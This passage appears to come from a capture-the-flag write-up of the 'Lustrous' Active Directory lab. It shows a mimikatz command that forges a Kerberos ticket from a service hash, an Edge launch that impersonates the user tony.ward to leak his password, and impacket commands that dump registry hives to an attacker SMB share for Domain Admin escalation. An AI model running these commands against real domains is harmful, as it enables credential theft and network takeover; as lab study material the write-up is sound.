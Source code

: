 ```shell
kerberos::golden /sid:S-1-5-21-2355092754-1584501958-1513963426 /domain:lustrous.vl /ptt /id:1114 /target:LusDC.lustrous.vl /service:HTTP /rc4:E67AF8B3D78DF5A02EB0D57B6CB60717 /user:tony.ward
```

After forging the ticket, we can launch ms edge with the created ticket using the command below:

```powershell
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --profile-directory="Default" --auth-server-whitelist="LusDc.lustrous.vl"
```

![alt text](/assets/Lustrous/Lustrous-TonyPassword.png)

After browsing to the website, it will automatically login as the user **tony.ward**, leaking his password.


# From tony.ward to Domain Admin

Since **tony.ward** is part of the **Backup Admins** group we can use his privilege to escalate to Domain Admin.

```shell
impacket-smbserver -smb2support "share" .
```

```shell
impacket-reg tony.ward@LusDC.lustrous.vl backup -o '\\10.8.5.10\share'
```

![alt text](/assets/Lustrous/Lustrous-Backup.png)
